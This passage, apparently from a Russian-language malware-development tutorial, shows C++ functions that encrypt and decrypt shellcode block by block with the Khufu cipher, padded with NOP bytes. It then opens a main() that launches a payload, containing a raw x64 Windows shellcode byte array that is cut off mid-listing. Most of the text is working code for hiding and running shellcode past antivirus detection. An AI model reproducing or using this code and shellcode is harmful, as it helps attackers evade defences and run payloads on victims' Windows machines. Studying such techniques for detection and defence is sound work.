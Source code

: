 Основная логика - это функции шифрования и дешифрования шеллкода:    

```cpp
void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    khufu_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    khufu_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

Как вы видите, шеллкод шифруется и расшифровывается поблочно. Обратите внимание, что если длина шеллкода не кратна размеру блока, то он дополняется (`0x90`) перед шифрованием и расшифровывается соответствующим образом.

Наконец, нам нужно запустить полезную нагрузку:    

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
```